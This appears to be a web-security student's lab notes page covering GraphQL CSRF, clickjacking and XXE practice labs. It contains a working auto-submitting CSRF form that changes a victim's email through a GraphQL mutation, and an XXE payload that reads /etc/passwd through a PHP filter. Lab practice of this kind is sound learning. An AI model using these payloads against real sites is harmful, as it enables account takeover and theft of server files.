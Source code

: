 **Performing CSRF exploits over GraphQL**

```xml
    <form action="https://{lab}/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test2&#64;test5&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
```

**Clickjacking with a frame buster script**
- Clickbandit -> allow forms



## Return to these labs
- SameSite Strict bypass via sibling domain
  - Uses cross-site WebSocket hijacking
- Rest of the clickjacking labs


## Fix in notes
- GraphQL - Github markdown issue with double curly braces
- Add `<!DOCTYPE+foo+[+<!ENTITY+xxe+SYSTEM+"php://filter/convert.base64-encode/resource=/etc/passwd">+]><root><name>%26xxe;</name><email>test@test.com</email></root>` to XXE (using php filter to grab file with XXE)